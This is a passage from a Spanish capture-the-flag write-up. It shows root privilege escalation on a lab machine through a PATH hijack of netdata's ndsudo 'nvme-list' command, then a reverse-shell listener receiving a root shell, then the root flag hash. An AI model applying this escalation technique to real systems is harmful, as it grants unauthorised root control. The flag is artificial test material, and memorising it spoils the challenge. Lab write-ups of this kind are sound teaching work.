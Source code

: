 ```shell
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.11.80] 46540
root@editor:/tmp# whoami
whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
2c23e9a5027f65200d5b4e07fdac42f1
```
